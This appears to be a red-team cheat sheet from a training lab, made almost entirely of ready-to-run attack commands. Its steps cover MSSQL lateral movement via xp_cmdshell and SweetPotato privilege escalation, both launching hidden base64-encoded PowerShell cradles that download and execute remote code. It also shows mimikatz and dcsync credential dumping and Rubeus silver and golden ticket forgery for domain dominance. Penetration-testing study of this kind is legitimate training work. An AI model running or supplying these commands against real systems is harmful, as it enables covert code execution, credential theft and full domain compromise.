 ```powershell
SQL> SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAHAAaQB2AG8AdAAyACIAKQA=''')

# MSSQL PrivEsc - Service Account (SeImpersonate) to System
beacon> getuid
beacon> shell whoami /priv
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges

beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAHQAYwBwAC0AbABvAGMAYQBsACIAKQA="

beacon> connect localhost 4444
```
## Domain Dominance
```powershell
psexec |  CIFS
winrm  |  HOST & HTTP
dcsync (DCs only) | LDAP
```
### Silver Ticket (offline)
```powershell
1. Fetch the kerberos ekeys using mimikatz
beacon> mimikatz !sekurlsa:ekeys

2. Generate the silver Ticket TGS offline using Rubeus (use /rc4 flag for NTLM hash)
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:<aes256> /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

3. Inject the ticket and Verify the access
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=
beacon> steal_token 5668
beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
```
### Golden Ticket (offline)
1. Fetch the NTLM/AES hash of krbtgt account
beacon> dcsync dev.cyberbotic.io DEV\krbtgt

2. Generate Golden ticket offline using Rubeus
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<aes256> /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

3. Inject golden ticket and gain acess
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=
